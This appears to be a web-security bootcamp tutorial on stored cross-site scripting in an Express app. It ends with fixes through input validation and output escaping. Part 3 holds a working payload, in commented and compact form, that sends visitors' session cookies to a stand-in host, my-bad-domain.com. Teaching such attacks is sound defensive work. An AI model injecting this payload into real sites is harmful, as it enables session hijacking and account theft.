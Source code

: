 # 9.1.1: XSS

## XSS

XSS stands for Cross-Site Scripting. This is a vulnerability where a malicious attacker is allowed to save a snippet of JavaScript in the system that will be displayed later.

When that snippet is run on other site visitors browsers, the attacker can run a number of different kinds of insecure programs.

Here is how we would implement an XSS attack:

#### XSS Part 1 - Saving unsanitized user input

The first part of an XSS attack is the ability of an attacker to save JavaScript into the database.

```text
<script>alert('hey!')</script>
```

If we paste this HTML snippet directly into the form input it will be saved to the database.

![](../../.gitbook/assets/xss-form.png)

#### XSS Part 2 - Displaying unsanitized user input

Once this "cat" record has been saved to the database, any user who navigates to a page displaying this "cat" will run the JavaScript snippet above.

![](../../.gitbook/assets/xss-alert.png)

#### XSS Part 3 - Capturing and sending user session cookies

Now that we have the ability to run arbitrary JavaScript for every user who visits the site, we can do malicious things. One of the worst might be to steal the session cookie of any logged in user.

In order to do that we need to save a particular kind of JavaScript, one that gets a hold of the user's cookie and sends it to a server we control.

Commented Version:

```javascript
<script>
var allCookies = document.cookie;

// don't do an AJAX request in case there are CORS issues
// create an image tag
var imgEl = document.createElement('img');

// settting the img src causes the browser to try and request from this domain
imgEl.src = 'http://my-bad-domain.com?'+allCookies;
</script>
```

Compact Version:

```javascript
<script>var allCookies = document.cookie;var imgEl = document.createElement('img');imgEl.src = 'http://my-bad-domain.com?'+allCookies;</script>
```

Open the network tab and notice how all the cookie information is being sent to the malicious server.

![](../../.gitbook/assets/xss-cookie.png)

### XSS Solutions

In the example app this XSS attack was facilitated by 2 parts of the code:

**1. No validation of the user's inputs.**

Ideally the app would never allow a user to enter any text into the cat name field that resembles code.

An easy implementation to guard against this is to use one of many common NPM libraries made for this purpose. [xss](https://www.npmjs.com/package/xss) is one of the most popular.

**2. No sanitization of the display of the database values.**

In this special express app we are not running EJS. When we print out the values from the database our code will directly generate HTML tags that will be interpreted by the browser.

See the code here: [https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js\#L320](https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js#L320)

If we had used EJS, the code's characters would be displayed on the screen, instead of being interpreted by the browser. This is called HTML character escape. Most modern view / HTML generation libraries will provide this functionality built-in. However, character escape does not always keep the app safe from XSS. The other measures already mentioned should still be implemented.

